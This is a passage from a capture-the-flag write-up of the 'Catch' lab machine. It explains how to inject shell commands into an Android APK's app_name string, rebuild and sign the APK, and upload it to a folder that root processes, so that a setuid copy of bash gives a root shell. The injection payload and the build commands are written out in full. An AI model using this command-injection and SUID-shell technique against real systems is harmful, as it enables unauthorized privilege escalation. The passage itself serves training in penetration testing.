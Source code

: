 ```text
1. Edit the strings.xml file on Kali for the catchv1.0.apk we decompiled earlier.
2. Put the commands we want to execute separated by a ;.
3. Compile the apk.
4. Sign it.
5. Upload to the box in folder /opt/mdm/apk_bin.
6. Wait for glory.
```

## Exploit APK Vulnerability

Let's do it. First open the strings file in your editor of choice:

```sh
┌──(root㉿kali)-[~/htb/catch/catchv1.0]
└─# nano res/values/strings.xml 
```

Look for this line:

```sh
   <string name="app_name">Catch</string>
```

Change it to this, or whatever else you wanted to execute as root:

```sh
    <string name="app_name">Catch999;cp /bin/bash /tmp/pencer; chmod +s /tmp/pencer</string>
```

Here I'm copying bash as root them modifying permissions so I can execute as user Will to get a root shell.

I used [this](https://medium.com/@sandeepcirusanagunla/decompile-and-recompile-an-android-apk-using-apktool-3d84c2055a82) guide for help with the steps to compile, and sign our apk.

Let's compile the apk using apktool:

```sh
┌──(root㉿kali)-[~/htb/catch]
└─# java -jar apktool_2.6.1.jar b -f -d /root/htb/catch/catchv1.0 -o /root/htb/catch/catch_pencer.apk                   
I: Using Apktool 2.6.1
I: Smaling smali folder into classes.dex...
I: Building resources...
I: Building apk file...
I: Copying unknown files/dir...
I: Built apk...
```

NOTE: this doesn't work with the latest version of apktool in the Kali repo. That one is 2.5, you need 2.6.1 for this to work so grab it from [here](https://apktool.en.lo4d.com/download) if needed.

Now we need to sign it. First generate our keys:

```sh
┌──(root㉿kali)-[~/htb/catch]
└─# keytool -genkey -v -keystore my-release-key.keystore -alias alias_name -keyalg RSA -keysize 2048 -validity 10000
Enter keystore password:  
Re-enter new password: 
What is your first and last name?
  [Unknown]:  1
What is the name of your organizational unit?
  [Unknown]:  1
What is the name of your organization?
  [Unknown]:  1
What is the name of your City or Locality?
  [Unknown]:  1
What is the name of your State or Province?
  [Unknown]:  1
```

  [Unknown]:  us
  [no]:  yes